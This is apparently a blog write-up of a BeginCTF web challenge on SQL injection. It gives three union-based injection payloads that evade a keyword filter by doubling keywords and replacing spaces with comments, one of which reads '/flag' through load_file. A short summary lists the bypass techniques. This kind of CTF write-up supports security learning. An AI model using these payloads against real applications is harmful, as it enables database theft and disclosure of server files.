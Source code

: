```yaml
---
title: BeginCTF-SQL教学局
category: CTF-Web-SQL
date: 2024-2-3
---
```


> source:[BeginCTF]SQL教学局

## info

![img](https://x1lys.github.io/blog/src/assets/img/7-1-1.png)

## EXP

```cpp
?user=1'/**/union/**/seselectlect/**/flag/**/frofromm/**/secret.passwoorrd%23
```

![img](https://x1lys.github.io/blog/src/assets/img/7-1-2.png)

```cpp
?user=1'/**/union/**/seselectlect/**/grade/**/frofromm/**/scoorre/**/where/**/student/**/like/**/'begin'%23
```

![img](https://x1lys.github.io/blog/src/assets/img/7-1-3.png)

```cpp
?user=1'/**/union/**/seleselectct/**/loaloadd_file('/flag')%23
```

![img](https://x1lys.github.io/blog/src/assets/img/7-1-4.png)

## Summary

```cpp
类型：
联合查询注入

注释：
%23

空格过滤绕过：
/**/

关键字'or','from','select','load'过滤绕过：
双写关键字

and过滤绕过：
like

文件读取函数：
load_file('/path')
```

